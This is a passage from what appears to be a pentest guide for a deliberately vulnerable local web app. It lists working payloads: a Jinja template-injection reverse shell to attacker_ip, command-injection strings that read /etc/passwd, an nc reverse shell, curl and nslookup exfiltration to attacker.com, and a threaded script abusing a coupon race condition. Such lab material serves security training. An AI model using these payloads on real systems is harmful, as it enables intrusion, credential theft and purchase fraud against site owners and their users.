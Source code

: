 ### Reverse Shell
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/attacker_ip/4444 0>&1"').read() }}
```

---

## 🔓 8. Command Injection

**Endpoint**: `/ping`  
**Parameter**: `host`

### Test Payloads
```bash
127.0.0.1; whoami
127.0.0.1 && id
127.0.0.1 | cat /etc/passwd
127.0.0.1; cat /etc/passwd
`whoami`
$(whoami)
127.0.0.1; nc -e /bin/bash attacker_ip 4444
```

### Blind Command Injection
```bash
# Time-based detection
127.0.0.1; sleep 5

# Out-of-band detection
127.0.0.1; nslookup $(whoami).attacker.com
127.0.0.1; curl http://attacker.com/$(whoami)
```

---

## 🔓 9. Business Logic Vulnerabilities

### Coupon Abuse
**Endpoint**: `/purchase`  
**Issue**: No proper coupon usage tracking

### Testing Steps
1. Login and find valid coupon (SAVE10, WELCOME20, MEGA50)
2. Make multiple purchases with same coupon
3. Verify discount applied each time

### Race Conditions
```python
import threading
import requests

def purchase_with_coupon():
    # Simultaneous requests with same coupon
    data = {'product_id': '1', 'quantity': '1', 'coupon_code': 'MEGA50'}
    requests.post('http://localhost:5000/purchase', data=data)

# Launch multiple threads
for i in range(10):
    threading.Thread(target=purchase_with_coupon).start()
```

---